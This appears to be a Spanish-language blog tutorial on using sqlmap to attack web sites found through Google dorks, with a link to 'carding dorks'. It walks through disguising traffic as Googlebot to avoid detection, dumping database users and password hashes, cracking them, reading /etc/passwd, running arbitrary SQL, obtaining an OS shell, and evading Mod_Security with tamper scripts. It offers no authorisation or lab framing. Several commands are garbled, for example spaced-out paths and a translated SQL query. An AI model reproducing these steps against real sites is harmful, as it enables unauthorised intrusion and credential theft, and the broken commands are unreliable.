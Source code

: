 ```yaml
---
title: Uso avanzado de sqlmap - sql injection
date: 2018-12-29
categories: [Pentesting, Herramientas]
excerpt: SQL(map) INJECTION
tags: [SQL]
---
```



## ¿Que es SQLMAP?
---

Es una herramienta desarrollada en el lenguaje de programación Python y sirve para hacer SQL injection automatizado en otras palabras aprovecha las vulnerabilidades de inyección SQL en aplicaciones web en la cual se puede llegar hacer distintas cosas, por ejemplo:  
  
- Enumerar bases de datos  
- Enumerar las tablas y columnas de una base de datos. 
  
- Enumerar los usuarios con su respectiva contraseña.  
  
- Descifrar los hashes de contraseñas .  
  
- Leer archivos específicos del sistema de archivo de un host especifico y mucha mas cosas.  
  
 ![sqlmap](/assets/img/post/04/sqlmap.png) 

### Uso practico
-----
Para empezar tenemos que elegír una Dork aquí les dejare unas 2k+ de Dorks de Google [Dorks](https://itechhacks.com/latest-fresh-carding-dorks-2016/)  
  
```bash  
sqlmap -u [URL] -D privacidaddb --tables --user-agent="Mozilla 5 (compatible , Googlebot/2.1, [http://www.google.com/bot.html)"](https://www.google.com/bot.html)
```

Comenzamos con este código antes de comenzar con lo más emocionante por decirlo así, pero la pregunta es: ¿Para qué sirve esto? Este comando sirve para camuflar nuestra conexión como un robot de google ya que siempre esta vigente a las conecciones vigentes de inicio ¿Que pasa si no hacemos esto? Simplemente dejarias a descubierto la conexion que estamos conectados de una manera textual y el web master se dara cuenta que estamos inyectando su web y hasta puede saber que programa estamos usando, etc.  

### Obtener datos del usuario de la web
-----
  
```bash
sqlmap -u [URL] --current-user
```

Ahora comprobemos si es correcto el usuario que tenemos de la base de datos  
  
```bash
sqlmap -u [URL] --is-dba --current-db 
```

Para ver los privilegios de administradores activados  

```bash
sqlmap -u [URL] --privileges**  
```

Para obtener todos los usuarios de DBS  
  

```bash
sqlmap -u [URL] --users
```
  
Podremos ver en donde corre y que usuario está alojado puede ser root u otro  
  
Para obtener las contraseñas de los usuarios de las dbs  
  
  
```bash
sqlmap -u sqlmap -u [URL] --password
```  
  
  
Nos saldrá un mensaje con unas opciones y tendremos que elegir según las letras ["Y" , "N", "Q"] ¿Por que sale esto? porque las contraseñas de los registros de las bases de datos se codifican automáticamente en Hash y en MD5 son las más conocidas, en fin...  
  
- Y = Es para hacer un ataque de fuerza bruta para descifrar el hash  
  
- N = Es para negar la anterior opción y obtener solo la hash  
  
- Q = Para terminar el proceso hasta ese momento

Ponemos Q y luego nos saldrán 3 opciones y escogemos el diccionario 1 /defauld  
  
Después nos dará la siguiente información que es la contraseña crackeada y el usuario. También podemos hacer una búsqueda más avanzada pero tenemos que tener en cuenta de como usar los nombres en las búsquedas  

```bash
sqlmap -u [URL] -C login --search**  
```  

Nos saldrán dos opciones y elegiremos la primera que es para tener una lista opcional de la búsqueda nos permitirá hacer un dump de las columnas encontradas en la DBS ponemos la opción "a" ¿Por que? esto hará un dump general  


### Obtener información de la web:
---
  
```bash
sqlmap -u [URL] --dbs -u = Target UR (e.g. “http://www.example.com/cgi-bin/item.cgi?item_id=15" --dbs 
``` 
  
Sigamos revisando la base de datos  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] --tables  
```  
  
Después nos saldrá otra tabla usaremos otro comando, pero explicare que las letras en mayúscula, por ejemplo, -D son abreviadas, porque -D es el nombre de la base de datos, o sea **--dbs** recuerda que siempre deben ir en mayúscula **-T** es **--tables**  
  
  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente] --columns
```
  
  
Ahora que tenemos las columnas visibles vamos a extraer datos de una tabla  
  
  
```bash
sqlmap -u [URL] --dump -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente]  
```  
  
Nos puede salir algo similar a esto:  
  
  
  
| id | hash | nombre | correo electrónico | contraseña | permiso | inicio_sistema | system_allow_only |  
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- |  
| 1 | 5DIpzzDHFOwnCvPonu | admin | En blanco | <en blanco> | 3 | En blanco | En blanco | 

  
Usemos otro comando hasta ahora hemos tenido mucha información de la tabla. La columna hash parece tener el hash de contraseña puede descifrarlo y obtener los datos para iniciar sesión lo que hará slqmap es crear un archivo csv que tendrá los datos volcados para facilitar el análisis  
    
En el siguiente comando se usará para tener el banner exacto del servidor de la base de datos cuando nos salga el banner de mysql nos mostrará la versión mysql que se ha estado usando cuando tengas la versión buscamos en google una vulnerabilidad de MySQL a esa versión que tenemos  
  
  
```bash
sqlmap -u [URL] -b
```  
Para leer un archivo de sistema tenemos que tener permisos para la operación de ARCHiVO los unico que podemos leer son los archivos legibles o legibles por el usuario de mysql, por ejemplo:  
  
  
```bash
sqlmap -u [URL] --file-read = / etc / passwd --threads = 10
```
  
  
Solo es ejemplo, pero ¿Qué estamos haciendo? Sqlmap alamencera el archivo en nuestro directorio para que podamos leerlo después  
  
  
```bash
sqlmap -u [URL] --sql-query = "seleccionar ahora ();"
```
  
Lo que hicimos fue ejecutar el comando sql arbitrario el cual sirve para ejecutar consultas sql arbitrarias en la base de datos  

  
### Comandos curiosos 
----
	
```bash
sqlmap -u [URL] --fingerprint -random-agent
```  
	
-u: URL  
  
--fingerprint: Captura el flag arg para analizar  
  
--random-agent: Pide el navegador por defecto**  
  
Definir el parámetro a explotar  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --dbs -p param2
```
  
  
  
Si la url tiene URI´s bonitas  
  
  
```bash  
sqlmap --dbms=mysql -u "http://XXXXXXXXXXX/detail/code/value1*/param2/value2" --dbs
```
  
  
Ejecutar consultas directametne  
  
```bash  
sqlmap --dbms=mysql -u [URL] -D "BASEDEDATOS" --sql-query "SELECT * FROM TABLAS;"
 ```
  
  
Conseguir Shell del sistema si es que es viable  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --os-shell**  
```
	
### Evadiendo el Mod_Security con Tampers de sqlmap
-----

Alguna vez cuando hacemos inyección por GET en alguna web a veces nos aparece un anuncio de Mod_Security al cual no deja inyectar, pero usando sqlmap y con sus Tampers podremos sacarnos de este apuro. Puedes encontrar información de cada Tamper cada archivo tiene su explicación de su funcionalidad solo tiene que ir a sqlmap/tamper/  
  
### ¿Cómo usamos Tamper en SQLMAP? 
----	
	
Es fácil solo se debe utilizar el siguiente comando o agregar la opción  
  
  
```bash
--tamper [Nombre del Tamper]**  
```
	
En otras palabras:
	
![tampers](/assets/img/post/04/tampers.png)

```bash
sqlmap.py -u [URL] --dbms "MySQL" -p [marca_id] --tamper "modsecurityzeroversioned.py" --batch
```
Ahora que sabemos esto de evadir los filtros y los WAF, gracias a la herramienta qué carga las reglas del script de sabotaje para lo mencionado, pero sabías que podemos usar todos en una línea? Ejemplo:  

### Bajar la clase de seguridad y mas

  
Podemos hacer otro ataque en donde haremos un escaneo de la URL vereficando las cookies y a lo último hace un string para poder ver la base de datos y no solo también podremos bajar la clase de seguridad de la página, pero espera antes necesitamos dos cosas URL y cookie podemos obtener esta información con BurpSuite y después usar sqlmap digamos que ya tenemos eso, pero y ahora que? Simplemente ya podemos usar el siguiente comando:  
  
```bash
sqlmap -u '[URL]' --cookie='[cookie]' --string=Surname --dbs
```